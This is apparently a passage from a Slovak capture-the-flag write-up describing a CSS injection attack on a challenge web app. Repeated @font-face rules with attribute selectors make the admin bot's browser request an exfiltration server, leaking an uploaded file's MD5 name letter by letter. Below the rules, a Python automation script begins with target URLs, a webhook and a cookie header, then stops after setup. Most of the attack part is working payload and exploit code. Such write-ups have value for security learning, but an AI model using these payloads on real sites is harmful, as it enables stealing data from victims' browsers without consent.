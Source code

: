 ```
@font-face{font-family:'uploads/temp/b';src:url('http://exfiltration:8000/tvojewriteupid/?name=uploads/temp/b')}
.payloadspan[src^='uploads/temp/b'] + .payloadspan{font-family:'uploads/temp/b'!important}

@font-face{font-family:'uploads/temp/c';src:url('http://exfiltration:8000/tvojewriteupid/?name=uploads/temp/c')}
.payloadspan[src^='uploads/temp/c'] + .payloadspan{font-family:'uploads/temp/c'!important}

@font-face{font-family:'uploads/temp/d';src:url('http://exfiltration:8000/tvojewriteupid/?name=uploads/temp/d')}
.payloadspan[src^='uploads/temp/d'] + .payloadspan{font-family:'uploads/temp/d'!important}

@font-face{font-family:'uploads/temp/e';src:url('http://exfiltration:8000/tvojewriteupid/?name=uploads/temp/e')}
.payloadspan[src^='uploads/temp/e'] + .payloadspan{font-family:'uploads/temp/e'!important}

@font-face{font-family:'uploads/temp/f';src:url('http://exfiltration:8000/tvojewriteupid/?name=uploads/temp/f')}
.payloadspan[src^='uploads/temp/f'] + .payloadspan{font-family:'uploads/temp/f'!important}


</style>
</svg>
```

Tak mi hitne reqbin pretože adminovi sa po spracovani url obrazku zmeni na realne http url s odkazom na temporary obrazok a takto opať písmenko po písmenku získam to čo potrebujem - md5 meno súboru...

Automat je takýto

```python
#!/usr/bin/env python3
"""
Auto-leaker – image-adjacent font trick (fixed)
================================================
• Každý pokus vygeneruje vlastné @font-face s **unikátnym** názvom.
• <img class="payload-image"> má ako **src aktuálny prefix**, takže selektor `[src^=...]` skutočne matchuje.
"""

import requests
import string
import sys
import time
from urllib.parse import urljoin, quote_plus

# ────────────────  NASTAVENIA  ────────────────
BASE_URL_APP  = "http://exp.cybergame.sk:7020/"
VISIT_URL     = "http://exp.cybergame.sk:7021/visit"
WEBHOOK_ID    = "tvojereqbinid" 
COOKIE_HEADER = "PHPSESSID=xxx;"

WEBHOOK_BASE  = f"http://exfiltration:8000/{WEBHOOK_ID}"
IMAGE_CHARSET = "0123456789abcdef"
START_PREFIX  = "uploads/temp/"

sess = requests.Session()
sess.headers.update({
    "User-Agent": "Mozilla/5.0 (font-leaker)",
    "Content-Type": "application/x-www-form-urlencoded",
    "Cookie": COOKIE_HEADER,
})

```